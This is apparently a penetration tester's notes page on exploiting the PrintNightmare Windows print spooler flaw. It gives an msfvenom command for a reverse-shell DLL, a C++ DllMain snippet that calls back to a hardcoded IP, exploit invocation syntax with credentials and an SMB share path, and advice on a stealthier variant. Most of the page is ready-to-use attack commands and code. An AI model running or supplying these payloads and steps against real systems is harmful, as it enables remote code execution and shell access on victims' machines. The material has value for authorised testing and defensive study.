 <https://github.com/outflanknl/PrintNightmare>

Did not test this yet. But seems 'better' then the cube0x0 implementation

## Create DLL

MSVenom if you think AV is not a problem. Otherwise build something custom.

### MSFVenom

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT TO LISTEN> -f dll -o /home/user/Documents/printnightmare/payloads/rev.dll
```

### Custom simple C++ reverse shell example

1. Install C++ tools in visual studio.

2. Create new project with Dynamic-Link Libary template.

3. Download the `plain_revshell.cpp` file and paste the content into the existing template.

4. Update the RHOST & RPORT on StartCallback

5. Build the release (ctrl+shift+b)

6. Place the DLL in the payloads folder

{{% attachments title="Related files" pattern="plain_revshell.cpp" %}}

```cpp
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        StartCallback("172.16.0.137", 80); // <- update this
```

## Usage

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

There are 3 different version. All versions have been updated to support a custom driver/printername.

| Version        | Info                                                                                                                     | When to use                                                                                                             |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------- |
| MSPAR          | Abuses MSPAR                                                                                                             | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN         | Abuses MSRPRN                                                                                                            | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN_nobrute | Abuses MSRPRN but does not brute force driver folders, see [this pull](https://github.com/cube0x0/CVE-2021-1675/pull/25) | When ItWasAllADream says its vulnerable but it does not seem to work and you tried everything listed in `Errors & tips` |

{{% notice warning %}}
Do note that MSRPRN_nobrute is more 'stealthy' (in the sense that there is less activity on disk) but less forgiving. Each run of the exploit needs a new printer name and dll name if they have not been removed.
{{% /notice %}}
